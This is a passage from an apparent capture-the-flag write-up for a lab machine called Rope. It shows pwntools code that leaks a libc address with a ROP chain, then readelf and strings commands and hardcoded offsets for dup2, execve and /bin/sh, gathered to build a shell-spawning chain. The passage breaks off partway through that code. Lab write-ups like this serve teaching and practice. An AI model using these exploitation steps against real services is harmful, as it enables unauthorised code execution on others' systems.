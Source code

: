     log.info("Sending exploit to leak libc write address")
    p = remote(host, port)
    p.recvuntil("Please enter the message you want to send to admin:\n")
    p.send(exploit)
    libc_write = p.recv(8, timeout=300)
    log.success(f"libc write address: 0x{u64(libc_write):016x}")
    p.close()
    

Before this code, `exploit` consists of junk, the canary, and rbp. So I start
a rop chain with the gadgets to call `write`. When I send it, I get back the
libc address of `write`.

### Stage 2: Shell

Now with the libc address known, I can write a rop chain that will give me
execution. The commands used to get the offsets are shown in comments below,
run both locally and on Rope:

    
    
    ### Stage 2: Shell
    # build rop
    
    if target == 'local':
    # readelf -s /usr/lib/x86_64-linux-gnu/libc-2.28.so | grep -e " dup2@@GLIBC" -e " execve@@GLIBC" -e " write@@GLIBC"
    #1010: 00000000000eabf0    33 FUNC    WEAK   DEFAULT   13 dup2@@GLIBC_2.2.5
    #1506: 00000000000c6a00    33 FUNC    WEAK   DEFAULT   13 execve@@GLIBC_2.2.5
    #2267: 00000000000ea4f0   153 FUNC    WEAK   DEFAULT   13 write@@GLIBC_2.2.5
    # strings -a -t x /usr/lib/x86_64-linux-gnu/libc-2.28.so | grep /bin/sh
    # 181519 /bin/sh
        dup2_offset   = 0xeabf0
        execve_offset = 0xc6a00
        write_offset  = 0xea4f0
        binsh_offset  = 0x181519
    
    else:
    # readelf -s libc.so.6_ | grep -e " dup2@@GLIBC" -e " execve@@GLIBC" -e " write@@GLIBC"
    #   999: 00000000001109a0    33 FUNC    WEAK   DEFAULT   13 dup2@@GLIBC_2.2.5
    #  1491: 00000000000e4e30    33 FUNC    WEAK   DEFAULT   13 execve@@GLIBC_2.2.5
    #  2246: 0000000000110140   153 FUNC    WEAK   DEFAULT   13 write@@GLIBC_2.2.5
    # strings -a -t x libc.so.6_  | grep /bin/sh
    # 1b3e9a /bin/sh
        dup2_offset   = 0x1109a0